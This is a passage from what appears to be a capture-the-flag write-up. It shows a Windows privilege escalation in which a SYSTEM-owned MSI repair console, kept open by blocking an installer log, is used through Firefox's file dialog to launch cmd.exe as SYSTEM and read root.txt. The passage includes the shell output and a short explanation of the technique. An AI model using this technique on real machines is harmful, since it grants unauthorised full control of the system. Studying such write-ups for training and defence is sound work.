 2. **Spawn SYSTEM cmd**. In Firefox, press **Ctrl+O** to open a file, and in the location box type `cmd.exe`. Hitting Enter launches a **SYSTEM** command prompt. From there:
```
Microsoft Windows [Version 10.0.20348.3932]                                        (c) Microsoft Corporation. All rights reserved.
C:\Windows\System32>whoami                                                         nt authority\system
C:\Windows\System32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
<REDACTED>

C:\Users\Administrator\Desktop>  
```

**Why this works:** the MSI repair is a SYSTEM task. By blocking the printer installer’s log file, we force the transient console to remain visible/interactive. The “legacy console” hyperlink hands control to a SYSTEM-owned process capable of launching arbitrary programs.


---
---